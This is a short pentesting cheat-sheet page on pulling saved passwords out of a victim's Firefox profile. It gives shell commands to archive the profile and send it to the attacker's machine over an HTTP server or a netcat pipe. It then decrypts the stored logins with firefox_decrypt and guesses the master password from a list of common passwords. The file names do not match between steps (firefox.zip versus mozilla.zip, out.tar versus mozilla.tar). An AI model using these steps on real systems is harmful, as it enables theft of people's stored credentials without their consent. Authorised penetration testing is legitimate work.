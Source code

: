 ```yaml
---
title: Mozilla Pentesting
description:
tags:
    - Privilege Escalation
refs:
date: 2023-02-02
draft: false
---
```


## Extract Passwords from Firefox Profile

### 1. Transfer the .firefox Directory

- **Zip**

    First, zip **.firefox** directory in target machine, and open web server to transfer the zip file to local machine.

    ```sh
    zip -r /tmp/firefox.zip .firefox
    cd /tmp
    python3 -m http.server 8000
    ```

    In local machine, download the zip file from the remote machine, and decompress it.

    ```sh
    wget http://<target-ip>:8000/mozilla.zip
    unzip mozilla.zip
    ```

- **Tar**

    If we cannot use zip, tar also can be used.  
    In local machine, start listener for getting the archived directory.  
    "out.tar" will be created when the remote machine will send the compressed directory.

    ```sh
    nc -lvnp 1234 > out.tar
    ```

    In remote machine, compress the directory and transfer over netcat.

    ```sh
    tar -cf - mozilla/ | nc <local-ip> 1234
    ```

    Then, decompress it in local.

    ```sh
    tar -xf mozilla.tar
    ```

### 2. Decrypt the Password

To crack the profile of Firefox, use **[firefox_decrypt](https://github.com/unode/firefox_decrypt)**.

```sh
python3 firefox_decrypt.py .mozilla/firefox/<id>.default-release
```

If we’ll be asked the master password and we don’t know it, try common passwords.

```txt
admin
password
password1
password123
root
```